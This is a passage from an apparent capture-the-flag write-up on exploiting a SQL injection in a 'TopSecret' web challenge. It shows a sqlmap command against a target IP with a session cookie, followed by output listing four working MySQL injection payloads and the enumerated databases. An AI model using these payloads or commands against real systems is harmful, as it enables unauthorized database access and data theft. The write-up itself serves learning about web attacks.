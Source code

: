Now to try the exploit.

[![dbs]({{site.url}}/images/rc3/TopSecret/dbs.png)]({{site.url}}/images/rc3/TopSecret/dbs.png)

As you can see the application is clearly vulnerable and it works with SQLMap. If you don't know what SQLmap it's pretty much an automated tool to do SQL injectons. First I tested for database names (--dbs flag). 

[dbs_output.txt]({{site.url}}/assets/rc3/TopSecret/dbs_output.txt)

```
viviturtle@vivi-laptop:~$ sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d' -p username --dbs
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20150919}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:37:55

[18:37:55] [INFO] resuming back-end DBMS 'mysql' 
[18:37:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=test' AND 7074=7074 AND 'UonP'='UonP

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' AND (SELECT 7296 FROM(SELECT COUNT(*),CONCAT(0x71717a6271,(SELECT (ELT(7296=7296,1))),0x7176627071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND 'DRrf'='DRrf

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: username=test' AND (SELECT * FROM (SELECT(SLEEP(5)))XSaB) AND 'wzNJ'='wzNJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: username=test' UNION ALL SELECT CONCAT(0x71717a6271,0x4f72664d694671504f4f,0x7176627071),NULL-- 
---
[18:37:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5.0
[18:37:56] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] TopSecret

[18:37:56] [INFO] fetched data logged to text files under '/home/viviturtle/.sqlmap/output/162.243.171.85'

[*] shutting down at 18:37:56

```
